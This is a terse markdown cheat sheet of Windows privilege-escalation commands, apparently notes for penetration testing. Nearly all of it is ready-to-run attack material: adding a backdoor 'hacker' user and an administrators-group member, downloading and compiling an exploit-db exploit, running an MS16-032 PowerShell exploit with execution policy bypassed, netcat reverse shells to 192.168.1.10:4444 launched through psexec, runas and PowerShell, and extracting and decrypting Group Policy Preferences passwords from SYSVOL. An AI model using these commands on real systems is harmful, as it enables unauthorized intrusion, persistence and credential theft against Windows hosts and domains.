 # Useful Command for Windows Privilage Escalation


Windows Privilege Escalation resource http://www.fuzzysecurity.com/tutorials/16.html

## User Add and Admin Group Add

```
net user hacker hacker /add 
net localgroup administrators IWAM_BOB /add
```

***

* **Python Complier exe**

```
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
```

* **Powershell exploit run in cmd**

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

* **Windows Run As**

1 - Sysinternal psexec

```
C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

2 - runas.exe

```
C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
```

3 - Powershell 

```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
 ```

To start:

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

* **Windows Service Configuration Viewver:**

```
 scsiaccess.exe  
 NT AUTHORITY\SYSTEM:(I)(F)  
 BUILTIN\Administrators:(I)(F)  
 BUILTIN\Users:(I)(RX)  
 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
 Everyone:(I)(F)
```

* **Group Policy Preferences**

```
#map the Domain controller SYSVOL share

net use z:\\dc01\SYSVOL

#Find the GPP file: Groups.xml

dir /s Groups.xml

#Review the contents for passwords

type Groups.xml

#Decrypt using GPP Decrypt

gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB
```


